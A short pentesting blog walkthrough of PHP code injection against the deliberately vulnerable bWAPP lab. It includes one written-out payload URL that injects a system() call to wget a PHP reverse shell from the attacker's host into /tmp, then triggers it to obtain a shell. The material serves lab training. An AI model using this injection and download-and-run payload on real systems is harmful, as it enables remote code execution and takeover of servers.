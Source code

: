 ```yaml
---
layout: post
title: PHP Code Injection
categories:
  - Web-Pentesting
---
```


<br>As you can see the message is showing in the URL, we can manipulate it

![37](https://teckk2.github.io/assets/images/Web%20Pentest/A1/37.png)
![38](https://teckk2.github.io/assets/images/Web%20Pentest/A1/38.png)
<br>Now how can we exploit this?
![39](https://teckk2.github.io/assets/images/Web%20Pentest/A1/39.png)
<br>Using the PHP system module, we can execute any system commands and get shell
<br>Now to get shell we cannot directly run nc or any one-liner, in alternate to that we can upload a php-reverse shell and execute it using this RCE.
<br>First host your php payload,
![40](https://teckk2.github.io/assets/images/Web%20Pentest/A1/40.png)
<br>Then download it into the victim’s machine
![41](https://teckk2.github.io/assets/images/Web%20Pentest/A1/41.png)
<br><font color="Black">192.168.140.138/bWAPP/phpi.php?message="a";system("wget http://192.168.140.136/teck-nc.php -O /tmp/teck.php")</font>

<br>Our file has been uploaded successfully now let’s try to trigger that file and get reverse shell.
![42]https://teckk2.github.io/assets/images/Web%20Pentest/A1/42.png
<br>And we got the shell.

<p class="message">
  ~ Hack the World and Stay Noob
</p>

[Twitter](https://twitter.com/Teck__K2) / [Hack The Box](https://www.hackthebox.eu/profile/966) / [CTF Team](https://ctftime.org/team/20102) /
[Teck_N00bs Community Telegram](https://t.me/Teck_N00bs)

<script src="https://www.hackthebox.eu/badge/966"> </script>
